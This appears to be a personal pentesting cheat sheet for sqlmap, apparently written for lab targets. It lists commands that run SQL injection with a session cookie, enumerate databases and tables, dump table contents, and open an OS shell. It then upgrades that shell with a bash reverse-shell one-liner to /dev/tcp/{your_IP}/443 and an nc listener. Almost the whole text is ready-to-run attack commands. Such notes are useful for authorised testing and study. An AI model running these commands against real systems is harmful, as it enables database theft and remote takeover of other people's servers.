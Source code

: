 # sqlmap

- see also:
> https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap

- don't forget to provide authentication
> sqlmap -u http://10.129.214.232/dashboard.php?search=dsad --cookie="PHPSESSID=3melqar30vce8aa6lnra6s6l1g"

- post request
> sqlmap -u http://example.com --data "username=*&password=*"

- get all databases
> sqlmap -u http://example.com --batch --dbs

- get tables of database
> sqlmap -u http://example.com --batch --tables -D <DATABASE>

- get content of table
> sqlmap -u http://example.com --batch --dump -T <TABLE> -D <DATABASE>

- get simple shell
> sqlmap -u http://example.com --os-shell

- if simple shell is working, upgrade to more stable shell by executing
> bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"

- and on host
> nc -nlvp 443